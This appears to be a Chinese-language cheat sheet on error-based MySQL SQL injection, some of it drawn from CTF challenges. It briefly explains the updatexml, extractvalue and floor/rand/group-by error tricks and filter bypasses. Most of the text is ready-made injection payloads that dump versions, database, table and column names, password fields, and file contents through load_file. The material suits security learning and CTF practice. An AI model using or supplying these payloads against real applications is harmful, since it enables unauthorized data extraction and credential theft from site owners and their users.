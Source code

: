 利用报错回显敏感的sql注入
常利用函数：updatexml、floor、exp、extractvalue、join
* floor
* exp
* extractvalue
* updatexml
* name_const
* join
* geometrycollecion
* polygon
* multipoint
* multinestring
* multpolygon
* linesring

特殊函数
```
concat()用于连接多个字段。常配合报错函数。
group_concat()用于拼接某个字段的所有值，常用于输出。
也可以：
GROUP_CONCAT(CONCAT(first_name, ' ', last_name)
```

拼接符
```
AND OR ^ || &&优先级比两边低，导致了会先执行错误语句报错。
在 SQL 中，`AND` 和 `OR` 操作符的优先级比算术运算符（如加法 `+`、乘法 `*`）的优先级要低。
这意味着在没有括号明确指定操作顺序的情况下，算术运算会先于逻辑运算执行。
```


## **updatexml**
原理：
updatexml（）一共有三个参数，第一个是xml内容、第二个参数是update的位置XPATH路径、第三个参数是更新后的内容；这里报错的主要原理是利用第二个参数，当其校验输入的内容是否符合XPATH路径格式的时候，不符合就报错，一般书写在路径位置为特殊符号0x7e，即可使得出现报错。同时第二个参数加入version（）或者database（）等等，因为不满足XPATH格式所以会输出错误，输出错误的时候将sql代码顺便（verson()，database()等）执行了。
```
payload:
//查询当前MySQL版本
'and updatexml(1,concat(0x7e,(select @@version)),1) or '1'='1
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
//查询当前数据库名
'and updatexml(1,concat(0x7e,(select database())),1) or '1'='1
'and updatexml(1,concat(0x7e,(select database(),0x7e),1) or '1'='1
//查询表名（当前数据库下的）
'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '1'='1
//查询字段名(users表中的)
'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) or '1'='1
'and updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'adopt_admin' ),1),1) or '1'='1

基于insert/update下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
基于delete下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1)

#正则f开头后就是一个
123"||(updatexml(1,(select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')),1))#

#updatexml()函数有长度限制（32位），使用reverse()进行倒序输出，将其与前段的flag进行拼接得到flag
123"||(updatexml(1,concat('~',reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

123"||(updatexml(1,concat('~',((select(reverse(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

#这里right()函数如果被过滤了，所以用reverse()
123"||(updatexml(1,concat('~',((select(right(real_flag_1s_here,30))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

#也可以用substr()分段读
(select substr(load_file('/flag.txt'),1,30))
```


^
## **extractvalue**
原理：与updatexml类似，第二个参数路径错误。
```
'and extractvalue(1,concat(0x7e,(select @@version))) #


过滤空格用括号()，过滤=用like

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23
查出库名geek

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))%23
查出表名：H4rDsq1



?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))%23
查出有password字段



?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23

extractvalue函数只能30字符，先做，后右。

?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23
```

^
## **floor**
floor()报错注入准确地说应该是floor,count,group by冲突报错是当这三个函数在特定情况一起使用产生的错误。
```
and (select count(*) floor(rand(14)*2) as a from users group by a);

获取数据库用户名
select * from test where id=1 and (select 1 from (select count(*), concat(user(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 

select * from test where id=1 and (select 1 from (select count(*), concat(database(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 

显示当前数据库名，登陆用户，数据库版本和数据路径 
SELECT (select 1 from (select count(*),concat(floor(rand(0)*2),(select concat(0x3a,database(),0x3a,user(),0x3a,version(),0x3a,@@datadir)))a from information_schema.tables group by a)b)

union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x3a,database(),0x3a,user(),0x3a,version(),0x3a,@@datadir)))a+from+information_schema.tables+group+by+a)b 
1、获取所有的数据库名 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(SELECT distinct concat(0x7e,0x27,SCHEMA_NAME,0x27,0x7e)+FROM+information_schema.SCHEMATA+LIMIT+0,1))a+from information_schema.tables+group+by+a)b 
2、爆当前数据库中的表 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+0,1))a+from+information_schema.tables+group+by+a)b 

(select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+0,1))a+from+information_schema.tables+group+by+a)b)

1' union select 1,count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 1,1), 0x7e,floor(rand(0)*2))b from information_schema.tables group by b --+


3、爆字段 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+column_name+from+information_schema.columns+where+table_name=表名+limit+0,1))a+from+information_schema.tables+group+by+a)b 
4、爆内容 
union+select+1+from+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x3a,字段1,0x3a,字段2)+from+表名+limit+0,1))a+from+information_schema.tables+group+by+a)b
```
原理：
group进行分组，count进行统计，rand进行创建随机数并且是第十四次，然后乘以2，用floor进行向下取整，然后得到1010，进行分组排序的时候，系统会先生成一个虚拟表，然后是主键和值，通过查询floor(rand(14)\*2)得到结果是1，然后发现自己得虚拟表中没有，插入虚拟表中得主键，然后在插入得时候，表达式会再次执行一遍，实际插入到里面得是零，然后第二次，插入是1，发现表中没有，在插入得时候再次运行，实习插入主键得是0，**两个主键0**，因此报错。

必要条件：
数据库得数据必须得大于2才能执行

round同理
```
/api/?id=' union select 1,count(*),concat((select `flag?` from ctfshow_flagsa ), 0x7e,round(rand(0)*2))b from information_schema.tables group by b --+
```


^
## **报错注入绕过**
```
1 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7e,(SELECT database()),0x7e,0x78))s), 8446744073709551610, 8446744073709551610)))



' and ST_Pointfromgeohash(current_user())--+
' || ST_Pointfromgeohash()--+
' || ST_Pointfromgeohash()#


order by GTID_SUBSET((version(),1))
```